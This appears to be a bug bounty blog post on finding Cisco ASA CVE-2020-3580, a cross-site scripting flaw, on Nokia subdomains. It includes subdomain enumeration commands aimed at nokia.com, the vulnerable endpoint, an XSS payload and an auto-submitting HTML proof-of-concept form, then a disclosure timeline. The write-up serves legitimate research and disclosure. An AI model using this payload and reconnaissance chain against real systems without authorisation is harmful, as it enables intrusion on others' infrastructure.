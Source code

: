 ```yaml
---
title:  "Exploiting Cisco ASA CVE-2020-3580: How I Discovered the Vulnerability on Nokia Subdomains"
layout: post
---
```


Cisco Adaptive Security Appliance (ASA) is a tool used for corporate VPN access, firewall protection, and threat management. However, it is not without its vulnerabilities. One such vulnerability, **<span style="color: #2980B9;">CVE-2020-3580</span>**, was discovered in 2020 and affects the WebVPN portal, allowing attackers to execute cross-site scripting (XSS) attacks that could compromise connected systems.

In this post, I’ll explain how I uncovered this vulnerability on various Nokia subdomains using reconnaissance techniques.

<h2 style="color: #2E86C1;">🕵️‍♂️ Reconnaissance:</h2>

The first step in bug bounty hunting or vulnerability research is always reconnaissance. My goal was to map out the Nokia attack surface to find potentially vulnerable assets, and for that, I leveraged several tools and methods.

<h3 style="color: #27AE60;">Passive Reconnaissance:</h3>

I started with passive recon to gather subdomains and IPs associated with Nokia. For this, I used the following tools and techniques:

<h3 style="color: #27AE60;">Subdomain Enumeration:</h3>

I used tools like **<span style="color: #2980B9;">Sublist3r</span>**, **<span style="color: #2980B9;">Amass</span>**, and **<span style="color: #2980B9;">Subfinder</span>** to gather a large list of Nokia subdomains:

```bash
subfinder -d nokia.com -o nokia-subdomains.txt 
amass enum -d nokia.com -o nokia-amass.txt
```

This provided a list of subdomains that are publicly known and might host various services, including VPN portals. After gathering subdomains, I looked for endpoints that were hosting web interfaces. Using tools like httpx, I quickly fingerprinted these subdomains to check for VPN interfaces, login pages, or any Cisco ASA systems.

```
cat nokia-subdomains.txt nokia-amass.txt | sort -u | tee subdomains.txt
cat subdomains.txt | httpx -status-code -title -tech-detect -o output.txt
```

Many subdomains returned HTTP 200 with Cisco VPN or WebVPN portals exposed.

<h2 style="color: #2E86C1;">Testing for CVE-2020-3580:</h2>

To test for the vulnerability, we need to send a POST request to /+CSCOE+/saml/sp/acs?tgname=a with the SAMLResponse parameter set to a payload that triggers the XSS vulnerability. The payload is:

```
'><svg/onload=alert("xss")>'
```

## Steps to Reproduce:

```
<html>
  <body>
    <script>history.pushState('', '', '/')</script>
    <form action="https://████/+CSCOE+/saml/sp/acs?tgname=a" method="POST">
      <input type="hidden" name="SAMLResponse" value="&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;&apos;XSS&apos;&#41;&gt;" />
      <input type="hidden" name="" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
``` 

<h2 style="color: #27AE60;">⚠️ CVE-2020-3580 on Nokia Subdomains:</h2>

I wrote a Bash script to check each of the subdomains for this vulnerability. Many of the subdomains were found to be vulnerable, and I reported them to Nokia through their responsible disclosure policy.

📅 <span style="color: #16A085;">Disclosure Timelines:</span>
- 17 Aug 2022 — Vulnerability discovered and reported.
- 18 Aug 2022 — Team confirmed receipt of the report.
- 20 Aug 2022 — I earned a spot on their Hall of Fame page.

